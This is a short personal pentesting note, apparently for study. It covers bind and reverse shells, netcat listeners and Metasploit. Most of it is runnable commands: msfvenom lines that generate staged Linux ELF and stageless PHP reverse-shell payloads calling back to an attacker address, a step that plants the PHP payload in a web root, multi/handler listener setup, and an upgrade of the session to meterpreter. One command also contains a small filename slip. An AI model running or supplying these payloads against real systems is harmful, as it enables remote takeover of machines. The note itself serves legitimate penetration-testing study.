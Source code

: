 #SHELLSSSSSS- RCM 8/20/21
Used to interact with underlying programming + issue system commands.
Resource:
https://rosettacode.org/wiki/Execute_a_system_command

Webshells available online as well. Be careful. Verify source, and the functions the shell calls. 

Bind shells open up a port on the target and wait for the connection.
Reverse shells connect directly to the attacker. 
 - reverse shells are more common for pentesting.

Resource:
pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

**Be sure netcat listener is running in order to recieve a connection**
`nc -klvp 53`
#May copy and paste reverse shells in /var/www/html 

#If not limited by length of the command line & have the ability to upload shells.

Use msfvenom to create a payload!

`msfvenom --list payloads | grep x64 | grep linux | grep reverse`

* Staged payloads don't contain the logic to create a full reverse shell.
`msfvenom -p linux/x64/shell/reverse_tcp lhost=192.168.0.58 lport=443 -f elf -o r443`
chmod +x 443
* Need to create metasploit listener along with the staged payload connection. Metasploit contains the proper logic that will send the rest of the payload to the connector. 
* In metasploit
`msf5 > use exploit/multi/handler` 
`msf5 exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp`
`set lhost 0.0.0.0`
`set lport 443`
`run`
--> stage is sent.

* Stageless payload - standalone program that doesn't need anything additional (like the metasploit listener) 
  - Advantage: Just need netcat listener.
  - Disadvantage: It may be a lot bigger.
* Generate stageless php payload:
`msfvenom --list payloads | grep php | grep reverse`
`msfvenom -p php/reverse_php lhost=192.168.0.58 lport=443 -o r443.php` (Creates stageless payload)
* Use netcat to intercept the incoming connection
`mv r443.php /var/www/html/` (Puts this payload on a webserver)
`nc -lvp 443` (netcat listener)
* Visit the webserver page
* Create metasploit listener for previously created shell
`msf5 > use exploit/multi/handler`
`msf5 exploit(multi/handler) > set payload php/reverse_php`
`set lhost <lhost IP>`
`set lport 443`
`run`
* background the session with ctrl+Z -- upgrade shell to meterpreter
`use post/multi/manage/shell_to_meterpreter` > options > set lport 8443 > set lhost <lhost IP> 
`sessions -l`
`set session 1`
`run`
